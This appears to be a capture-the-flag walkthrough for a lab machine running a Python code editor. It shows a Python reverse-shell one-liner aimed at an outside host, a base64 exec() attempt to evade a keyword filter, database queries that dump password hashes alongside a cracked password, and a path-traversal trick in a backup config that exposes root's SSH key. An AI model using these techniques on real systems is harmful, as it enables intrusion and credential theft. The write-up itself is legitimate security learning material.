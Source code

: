 1, Recon
port scan 
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Page Check 
![](images/Pasted%20image%2020250324093855.png)
When I want to try to make a reverse shell here, I found there is a clean script here
```
export RHOST="10.10.16.12";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```
Then I get the error message here
```
[](http://10.10.11.62:5000/#)

Use of restricted keywords is not allowed.
```

I guess we can try to make a `base64` encode to passby that
```
import base64

# Base64 编码的字符串
encoded_code = "ZXhwb3J0IFJIT1NUPSIxMC4xMC4xNi4xMiI7ZXhwb3J0IFJQT1JUPTQ0MztweXRob24zIC1jICdpbXBvcnQgc3lzLHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KChvcy5nZXRlbnYoIlJIT1NUIiksaW50KG9zLmdldGVudigiUlBPUlQiKSkpKTtbb3MuZHVwMihzLmZpbGVubygpLGZkKSBmb3IgZmQgaW4gKDAsMSwyKV07cHR5LnNwYXduKCIvYmluL2Jhc2giKSc="

# 解码为原始代码
decoded_code = base64.b64decode(encoded_code).decode('utf-8')

print("🔍 解码后的代码如下：\n")
print(decoded_code)

# 执行代码（⚠️ 小心使用）
exec(decoded_code)

```

Very sadly, It still not worked.
But there is still something interesting here, because of there is `login` and `register` label and services, that means there must be the database stored them, so I guess we can try to check the database here.
```
print([u.username for u in db.session.query(User).all()])

print([u.password for u in db.session.query(User).all()])
```

Then we successfully get the result:
```
['development', 'martin'] 
['759b74ce43947f5f4c91aeddc3e5bad3', '3de6f30c4a09c27fc71932bfc68474be']
```

Then we can use hashcat to crack one of them
```
martin:nafeelswordsmaster
```

Then I guess we can use ssh to login, the fact told us I am right,

2, shell as root
There is a directory called `backup` here, and there is something in it.
```
martin@code:~/backups$ ls
code_home_app-production_app_2024_August.tar.bz2  task.json
martin@code:~/backups$ cat task.json 
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/app-production/app"
        ],

        "exclude": [
                ".*"
        ]
}
```
Then I would want to check what `martin`  could do as root.
```
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh

```
When I want to check the source code of `backy.sh`, I can only see the messy code.
This script is obfuscated and I cannot see the original code
```
martin@code:~$ sudo /usr/bin/backy.sh 
Usage: /usr/bin/backy.sh <task.json>
```

Let's try to run it.
```
martin@code:~/backups$ sudo /usr/bin/backy.sh task.json 
2025/03/23 23:46:10 🍀 backy 1.2
2025/03/23 23:46:10 📋 Working with task.json ...
2025/03/23 23:46:10 💤 Nothing to sync
2025/03/23 23:46:10 📤 Archiving: [/home/app-production/app]
2025/03/23 23:46:10 📥 To: /home/martin/backups ...
2025/03/23 23:46:10 📦


task.json
{
 "destination": "/home/martin/backups/",
 "multiprocessing": true,
 "verbose_log": false,
 "directories_to_archive": [
  "/home/app-production/app"
 ],

 "exclude": [
  ".*"
 ]
}
```

The work flow I guess would be 
`Back up and synchronize the specified path, and then save it to the destination directory`
For root, same process but /root is blacklisted, 
`you can trick the backy.sh but modifying the above task.json using /var/../root/ for directory to archive....`
```
{
    "destination": "/home/martin/backups/",
    "multiprocessing": true,
    "verbose_log": false,
    "directories_to_archive": [
        "/home/../../root"
    ]
}
```
Then just download it to your local machine and extract it, you can get the id_rsa of root shell, and you can also use it to login as root.




